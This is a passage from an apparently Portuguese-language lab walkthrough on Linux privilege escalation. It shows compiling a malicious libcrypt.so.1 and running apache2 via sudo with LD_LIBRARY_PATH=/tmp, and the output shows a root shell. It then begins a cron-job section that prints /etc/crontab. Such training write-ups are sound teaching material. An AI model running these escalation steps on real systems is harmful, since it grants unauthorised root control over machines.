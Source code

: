 Vamos criar um objeto compartilhado com o mesmo nome de uma das bibliotecas listadas (`libcrypt.so.1`) usando o código localizado em `/home/user/tools/sudo/library_path.c`:

```bash
user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Agora camos executar o apache2 usando sudo, enquanto configura a variável de ambiente `LD_LIBRARY_PATH` para `/tmp` para que o apache2 carregue o objeto compartilhado que criamos:

```bash
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# whoami
root
```

E para concluir esse passo basta clicar no botão `Complete`.

---

## **<a id="8"> • Cron Jobs - File Permissions.</a>**

Nesse topico vamos explorar a escalação de privilégios através de uma falha nas Cron jobs.

Cron jobs são programas ou scripts que os usuários podem agendar para serem executados em horários ou intervalos específicos. Os arquivos da tabela cron (crontabs) armazenam a configuração para tarefas cron. O crontab de todo o sistema está localizado em /etc/crontab.

<div class="page"/>

Vamos verificar o conteúdo do arquivo `/etc/crontab`:

```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
